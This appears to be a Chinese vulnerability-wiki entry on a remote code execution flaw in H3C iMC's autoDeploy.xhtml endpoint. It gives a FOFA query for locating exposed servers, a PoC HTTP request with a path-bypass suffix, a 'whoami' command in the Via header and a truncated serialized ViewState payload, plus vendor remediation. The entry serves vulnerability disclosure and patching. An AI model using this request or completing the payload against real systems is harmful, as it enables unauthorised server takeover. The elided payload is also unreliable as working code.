

# H3C iMC智能管理中心 autoDeploy.xhtml 远程代码执行漏洞

> 指纹字段校订（2026-10-04）：按原归档正文的明确平台标签及完整表达式恢复当前查询，旧误填或截取字段逐字保存在 `previous_*`；后文对此旧字段的诊断按当前字段阅读。仅经过本库保守语法与原字面核对，未在线运行查询，不把指纹命中视为漏洞存在。

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：H3C iMC/EIA
- 本文讨论：autoDeploy.xhtml JSF ViewState RCE
- 版本、权限与配置前提：未认证；;.js路径变体；修EIA E0632H07
- 资料类型：残缺PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- ViewState密文含大量...省略，实际不可用且无生成说明
- fofa截断，在野已知无来源；影响节仅产品名
- 与132同载荷/同公告修复，可能同实体另一入口
- 已落实的文本修订：残缺指纹退出可执行索引并保留原值。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 执行文中载荷可能以目标进程权限启动命令或加载代码；权限受认证角色、操作系统账户及依赖版本约束，不能把 root/200 等通用字符串当成功证据

### 待核与来源

- 同源漏洞、路径前提及完整载荷待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


# 漏洞描述

H3C iMC智能管理中心 /imc/autoDeploy.xhtml 接口处存在远程代码执行漏洞，未经身份攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

影响版本

iMC智能管理中心

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 高 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：(title="用户自助服务" && body="/selfservice/javax.faces.resource/") || body="/selfservice/index.xhtml"

POC/EXP：

```http
POST /imc/autoDeploy.xhtml;.js HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type: application/x-www-form-urlencoded
Connection: close
Via: whoami

javax.faces.ViewState=8SzWaaoxnkq9php028NtXbT98DEcA...Uh57HB/L8xz6eq%2b4sy0rUOuOdM5ccd2J6LPx8c6%2b53QkrX...jpFKgVnp07bad4n6CCBW8l98QIKwByAhLYdU2VpB/voaa....2oU%2burahQDFE8mIaFvmwyKOHiwyovIHCVymqKwNdWXm3iHLhYEQXL4....k3z7MWm%2bwbV2Dc9TXV4rs8E6M7ZvVM3B0pORK8vAhd2iLBkgFhGHw9ZgOwifGnyMzfxlU....gG4chEOg57teuLurMPrulbEVBAEl7rRwobqvxb91sG%2bGMrGWFL5%2bwFvE56x7UEzHtE/o0IRtzTKi/EFnamrPT1046e7L8jABKDB/LjCX2qAOmqQkIz4gXrEFnHHYZ9LZc7t9ZZPNT...JZjummuZuror/zwPbnsApwXlYsn2hDAZ7QlOBunA3t7omeOTI5keWXvmOH8eoEEN//SlmQblwhBZ7kSHPvStq0ZciiPptEzVjQ/k/gU2QbCSc7yG0MFbhcJEDQj4yKyJ/yTnOOma....KuNzZl%2bPpEua%2b28h2YCKipVb5S/wOCrg%2bKD3DUFCbdWHQRqDaZyvYsc8C0X7fzutiVUlSB7OdGoCjub9WuW0d2eeDWZmOt3Wunms3SwAbE7R%2bonCRVS8tiYWF8qiQS%2bl0k8Gw/Hz6Njpfe0upLIAtPFNDuSf69qGg4isEmY2FtoSQTdD8vU0BdJatHrBArPgo9Qsp0jSJBlUz2OqteQg05PYO6gEBXVj/RiTBHI1/pOzlcE0wVZcLUHnxGNvckSCTiT....nWbkWGJ8AYCvrM0PHZ/BYcKKRf3rMHoIqcAN%2bORMhXcmAXRcvq29c5xqoOuvrMSJPDZmbZhcm/99crGJSO5HxXQder9WKm2tVBaDLEC9ulpWyICJYgfxayoWkt6vwPcq2Tn20vn5RDpfqJKLNLbrV8g7JDRUUyW%2b....R6PRNunKhfJHvHcXAZ73mkCUf7cMUbNhqCbLSGP/D%2bqpqWXk5ZWjsT4tQ9tFH9uvPIaNB7FlcFXI2I2A9oPoY0ltif%2bb8BdPXVfpuZq8boHE4hY%2b33BIl%2bIa%2bov6nyMmGIzCKYeRbfDJtk/45EXvink6BIgA/205la6vvqKTGQ32o1AtepBgKei....604cVvbEP7UKor09Gz61mryE4D%2biXG1prZGCT3LEtdASuCkmf4RTEc5wks2In3ElZSZl8zf3RsHA0dgbvrpnXe2wLPI%2bUCAGO%2biOG9/%2bbCQJQNFmykkyRbmslfcilUxZ%2bIg%2bQuOs9FlMod2ICrkktOFFeZWNeznx737S8H4Nf2%2bp2QNHY2I6GFGtWpqjeZ%2bGmb1euM5Tzi06eJ.......koPrjkDT9VPoxCgpRMQl06x7NShkos7BCI9fV1%2b17t5gWZvqAYzeQUsZLaiBXaZfuUtPuBmbq1re/dB/VgSOn4QX%2b8AwwDjtfazsHw4aIdh4e2a1y/Ou2ZiI//EzkwIBksY6CluuPgocdvtOfNiWcXsfYs3UKLmL/48A4Ls0OF1TrQK4UnfCYt.....1DGrwzfXnM9vLHznFaJenqvLY3yTiKN5SSVxvGwvhmp6PFW4Jj7G8NXdr/zN7HyC9Eg1Y1jKP7uiO%2bGM2U/etvMOCKwnfP2MnbznP378fZHf1H9yiVVrn%2bm%2b0u8PV.....2MsOTgS6B7C8ItflgSfJz5dkJ8IssRAcY%2bu/2QjrW95BBMSRPu2EaCUm1IpuszXEwHYgDizWPzDB0hSRgCEjncpGhPX3i10bK4/snBaBcAxAa1e2er2LDe/4WgaIwc9w2wKn3wXY5B87BKF5/Xq30....NNf6EMRrQ9154rEkCJb4IU4sFsTuyYlfZatlV%2bC2HM7u7FEbdVvr6yYK4oQqvfPmF5yRplwAYUQAvr1jwLbGYxhGaTy14UUrtvoyph5Sqebk2YTKjKX4U7xX5ha4YbyoVIMSRzdvB6YXDY3BId%2bgmMWZtTf2UE%2b9UAx/7g30pQNXA....FP1adq6ySd4x3dGVCe4YJcYe2gKWYVcWj5XPwUSt2fxdshzgFnjjqmRgxowH2u2nZU0xG539lnxIOlB
```





# 修复方案

1. 官方修复方案：

   请尽快联系厂商下载更新EIA组件至E0632H07及以上版本。官方通告链接：
   
   https://www.h3c.com/cn/Service/Online_Help/psirt/security-notice/detail_2021.htm?Id=134
   
   临时修复方案：
   
   确认不影响业务的前提下，可临时禁用EIA组件；
   
   如非必要，避免将资产暴露在互联网。


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
